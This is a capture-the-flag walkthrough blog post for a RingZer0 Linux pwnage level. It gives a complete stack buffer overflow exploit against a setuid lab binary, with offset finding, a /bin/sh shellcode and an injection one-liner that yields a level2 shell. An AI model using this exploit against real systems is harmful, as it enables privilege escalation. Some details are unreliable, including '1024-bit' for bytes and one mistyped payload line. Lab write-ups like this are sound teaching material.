 ```yaml
---
title: "R0 | Pwnage Linux - Level1"
layout: post
date: 2019-08-10
tag:
- Pwnage
- x86
- Linux
- walktrhough
- CTF 
category: blog
author: Srbx7
description: R0 | Pwnage Linux - Level1
---
```


`# cat /levels/level1.c`

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv) {

    char buf[1024];

    strcpy(buf, argv[1]);
    return 0;
}
```

This code's copying the argument to a 1024-bit buffer using the well known vulnerable function `strcpy`.


`# file /levels/level1`

```
level1: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f355fe3b2ac64ecfedfcf48c6208429d0138e80d, not stripped
```

> Has a setuid (probably for the next level.. )

> Is compiled for 32-bit processors and Intel x86 arch

> Is little-endian (less significant bit)


`# checksec /levels/level1`

```
[*] '/root/ringzer0team/pwnageLinux/level1/a.out'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

> No RELRO (Relocation Read-Only): it's possible to overwrite global variable

> No canary found: it's possible to smash the stack 

> NX (no executable) disabled: it's possible to write and execute from the stack

> No PIE (Position Independant Executable): it tells the loader which virtual address it should use and keeps its memory layout quite static (e.g.: `0x8048000`)

So, basically, what you have to do is overflow the 1024-bit buffer to return to an address on the stack where's a Linux Intel x86 shellcode that generates a shell. Let's hope that the user will be level 2 and have launched this ELF using the `setuid`.

1- Find the offset of the return adress

```python
from pwn import *
cyclic(2000)
```

``` bash
(gdb) run <CYCLIC_PL>
Program received signal SIGSEGV, Segmentation fault.
0x6b61616a in ?? ()
```

```python
cyclic_find(0x6b61616a)
1036
```
2- Get a [Linux Intel x86 shellcode](http://shell-storm.org/shellcode/)

```python
 len("\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")
45
```

3- Pick the return address

```bash
(gdb) run `python -c 'print "A" * 1040'`
(gdb) x/100wx $esp-1050
0xffffd456:	0x0048ffff	0x00040000	0x41410000	0x41414141
0xffffd466:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd476:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd486:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd496:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4a6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4b6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4c6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4d6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4e6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4f6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd506:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd516:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd526:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd536:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd546:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd556:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd566:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd576:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd586:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd596:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5a6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5b6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5c6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5d6:	0x41414141	0x41414141	0x41414141	0x41414141
```

4- Craft the PL (e.g.: NOP + SHELLCODE + RETURNADRESS)

```bash
/levels/level1 `python -c 'print "\X90" * 1036-45 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xb6\xd5\xff\xff"'`
```

That's it!

```
level1@lxc-pwn-x86:~$ /levels/level1 `python -c 'print "\x90" * (1036-45) + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xb6\xd5\xff\xff"'`
level2@lxc-pwn-x86:/home/level1$ wc /home/level2/.pass
 1  1 21 /home/level2/.pass
level2@lxc-pwn-x86:/home/level1$
```
